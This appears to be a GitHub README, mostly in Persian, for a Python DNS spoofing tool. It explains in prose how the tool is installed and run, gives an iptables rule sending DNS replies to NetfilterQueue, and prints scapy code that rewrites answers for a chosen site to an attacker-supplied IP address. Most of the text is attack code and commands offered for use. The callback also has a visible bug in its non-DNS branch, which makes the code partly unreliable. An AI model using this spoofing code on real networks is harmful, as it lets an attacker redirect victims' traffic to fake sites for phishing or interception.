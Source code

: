 # DNS Spoofing

A simple DNS spoofing with NetfilterQueue and iptables


## نصب ابزار مورد نیاز

این یک اسکریپت جهت انجام حملات دی ان اس اسپوفینگ است و به پایتون ۳ جهت اجرا نیاز دارد. سپس برای نصب پکیج های مورد نیاز دستورات زیرا را وارد کنید:

```bash
pip install scapy
pip install netfilterqueue
```

## اجرای اسکریپت
برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:

```bash
sudo ./dns-spoof.py --queue 1 --server www.example.com/1.2.3.4
```

این اسکریپت به کمک یک پکیج به اسم نت فیلتر کیو شروع به پردازش بسته ها می کند. یعنی بسته ها را از یک سری صف می خواند و می تواند ان را تغییر دهد یا قبول کند یا ریجکت کند. برای اینکه از این ضف ها استفاده کند. باید از ایپی تیبل کمک بگیرد. یعنی ایپی تیبل پکت های دریافتی را در صف هایی قرار دهد و این اسکریپت این پکت ها را برداشته و پردازش کند. برای اینکه ایپی تیبل این کار را برای ما انجام دهد باید از دستور زیر استفاده کنیم:

```bash
sudo iptables -A INPUT -p udp  --sport 53 -j NFQUEUE --queue-num 1
```

## توضیح اسکریپت

در این قسمت ما داریم یک کامند لاین درست می کنیم. که بتواند دو تا مقدار بگیرد اولی شماره صفی که باید پکت ها را از ان بخواند و دومی ادرس وبسایت به علاوه ایپی که باید جواب دهد. و از طرفی یک ابجکت از نوع نت فیلتر می سازیم و ان را به شماره صفی که در کامند لاین دادیم متصل می کنیم. همچنین یک کال بک برای ان ست می کنیم. که هر پکتی که از صف برداشت ان را به این کال بک بدهد یا عملیات مورد نظر انجام شود:

```python
parser = argparse.ArgumentParser()
parser.add_argument('--queue', required=True, type=int,
                    metavar='Netfilter Queue ID for binding')
parser.add_argument('--server', required=True, type=str,
                    metavar='website/to ip address')
args = parser.parse_args()
splitted = args.server.split('/')
nfqueue = NetfilterQueue()
nfqueue.bind(args.queue, callback)
nfqueue.run()
```

در این قسمت تابع کال بک را مشاهده می کنید که ابتدا کاری که انجام می دهد این است که پیلود پکت که دریافت کرده را برمی دارد. سپس بررسی می کند که ایا پکت مورد نظر از نوع دی ان اس است یا خیر اگر نبود پکت را برای ادامه پردازش به خود کرنل منتقل می کند. بعد از آن بررسی می کند که آیا پکت مورد نظر که از نوع دی ان اس است حاوی ادرسی است که ما می خواهیم ان را عوض کنیم یا خیر. در صورتی که حاوی این ادرس بود یک پکت جدید از نوع دی ان اس می سازیم و در پکت مورد نظر اینجکت می کنیم. و سپس پکت را به کرنل پاس می دهیم:

```python
def callback(packet):
    ip_packet = IP(packet.get_payload())
    # for better throghput check if the packet is dns query
    if not ip_packet.haslayer(DNSQR):
        # accept packet and go to furthur processing
        ip_packet.accept()

    print(f"[*] Recive dns packet for site: {ip_packet[DNSQR].qname.decode()}")
    # check if the dns query contains our target site
    if splitted[0] in ip_packet[DNSQR].qname.decode():
        print("[*] We got dns packet for target site!!!!")
        # we hit the dns query that is about out target. going to change
                      # it's ip packet                                   # since it's dns packet, it must be sent over udp
        new_payload = IP(src=ip_packet[IP].src, dst=ip_packet[IP].dst) / UDP(sport=ip_packet[UDP].sport, dport=ip_packet[UDP].dport) /\
                        DNS(id=ip_packet[DNS].id, qr=1, aa=1, qd=ip_packet[DNS].qd, an=DNSRR(rrname=ip_packet[DNS].qd.qname, ttl=10, rdata=splitted[1]))
        
        # change packet payload
        packet.set_payload(bytes(new_payload))
        # accept packet and go to furthur processing
        packet.accept()
    else:
        # pass the packet. it's not what we want
        packet.accept()
```

## نتایج اجرای اسکریپت

دی ان اس واقعی:

![real-dns](assets/real-dns.png)

دی ان اس فیک بعد از اجرای اسکریپت:

![fake-dns](assets/fake-dns.png)

خروجی اسکریپت:

![script-output](assets/script-output.png)
